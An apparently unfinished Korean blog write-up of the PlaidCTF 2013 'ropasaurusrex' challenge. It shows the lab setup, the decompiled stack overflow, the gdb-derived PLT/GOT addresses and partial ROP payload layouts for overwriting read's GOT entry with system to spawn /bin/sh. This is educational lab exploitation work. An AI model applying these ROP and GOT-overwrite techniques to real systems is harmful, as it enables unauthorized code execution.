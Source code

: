 ```yaml
---
layout: post
title: plaid 2013 - ropasaurusrex [미완]
date:   2018-08-19 17:15:20 +0900
description: # Add post description (optional)
img: post-2.jpg # Add image post (optional)
tags: [CTF]
author: # Add name author (optional)
---
```


## 환경셋팅
    purelledhand@purelledhand:~$ git clone https://github.com/adamdoupe/ctf-training

    purelledhand@purelledhand:~/ctf-training/ropasaurusrex$sudo docker run -p 127.0.0.1:31337:31337 -it adamdoupe/ropasaurusrex

    purelledhand@purelledhand:~/ctf-training/ropasaurusrex$sudo make run

    purelledhand@purelledhand:~/ctf-training/ropasaurusrex$ cat | nc localhost 31337
    1234
    WIN

## 바이너리 분석


    ssize_t __cdecl main()
    {
    sub_80483F4();
    return write(1, "WIN\n", 4u);
    }

    ssize_t sub_80483F4()
    {
    char buf; // [esp+10h] [ebp-88h]

    return read(0, &buf, 0x100u);
    }


이 함수에서 buf의 크기는 0x88이지만 read함수로 0x100만큼 buf에 넣는 것을 확인


>1.  system("/bin/sh")을 실행시키기 위해 인자값 "/bin/sh"을 쓰기 가능한 메모리공간에 넣어두기 (.dynamic, .data, .bss 등)
>
> 2. write@plt로부터 read함수의 got값 도출
> 
> 3. read 함수의 got와 offset값을 통해 system함수의 주소 알아내기
>
> 4. read@plt를 system함수로 got overwrite
>
> 5. system 함수 호출

### 1. 쓰기 가능한 메모리 영역에 "/bin/sh" 넣어두기

쓰기 가능한 메모리 영역 찾기

    purelledhand@purelledhand:~/ctf-training/ropasaurusrex$ objdump -x ropasaurusrex 

    Sections:
    Idx Name          Size      VMA       LMA       File off  Algn

    20 .dynamic      000000d0  08049530  08049530  00000530  2**2
                    CONTENTS, ALLOC, LOAD, DATA
    21 .got          00000004  08049600  08049600  00000600  2**2
                    CONTENTS, ALLOC, LOAD, DATA
    22 .got.plt      0000001c  08049604  08049604  00000604  2**2
                    CONTENTS, ALLOC, LOAD, DATA
    23 .data         00000008  08049620  08049620  00000620  2**2
                    CONTENTS, ALLOC, LOAD, DATA
    24 .bss          00000008  08049628  08049628  00000628  2**2
                    ALLOC

"/bin/sh"을 넣을 수 있는 크기의 메모리 영역인 .dynamic섹션(0x08049530)에 넣기로 결정

>"A"*140 + read_plt + pop-pop-pop-ret + stdin + "/bin/sh" + len("/bin/sh")

이렇게 까지가 .dynamic 섹션에 "/bin/sh"을 넣는 페이로드 구성이다. 

<img src="../assets/img/ctf/rop/1.jpg" width="500px">

## 2. read() 함수의 got에 저장되어 있는 값 알아내기

먼저 read, write 함수의 plt주소와 got주소를 알아내야 했다.
<br>IDA에서 찾은 read의 plt주소 (0x0804832c)를 따라가서 read의 got주소를 확인했다.

    (gdb) x/4i 0x0804832c
    0x804832c:	jmp    DWORD PTR ds:0x804961c
    0x8048332:	push   0x18
    0x8048337:	jmp    0x80482ec
    0x804833c:	add    BYTE PTR [eax],al

    # read_plt : 0x0804832c
    # read_got : 0x0804961c

같은 맥락으로 write의 plt주소와 got주소도 얻어낼 수 있었다.

    (gdb) x/4i 0x0804830c
    0x804830c:	jmp    DWORD PTR ds:0x8049614
    0x8048312:	push   0x8
    0x8048317:	jmp    0x80482ec
    0x804831c:	jmp    DWORD PTR ds:0x8049618

    # write_plt : 0x0804830c
    # write_got : 0x08049614


> write_plt + pop-pop-pop-ret + stdout + read_got + len(read_got)

이렇게 까지가 read함수의 got 값을 도출하는 페이로드 구성이다.

<img src="../assets/img/ctf/rop/2.jpg" width="700px">


## 3. read함수 got overwrite

read함수가 호출되고 난 후 read함수의 got에는 read함수의 주소가 저장되어 있게된다.
이 때 read함수의 got 값을 system 함수의 주소로 바꿔주어 system 함수를 호출시킬 수 있다.

system함수의 주소를 read() 함수의 got로부터의 오프셋으로 표현하기


    gdb-peda$ x/x system
    0xf7e51940 <system>:	0x83
    gdb-peda$ x/x read
    0xf7eeb350 <read>:	0x65

    # offset : 0x99a10



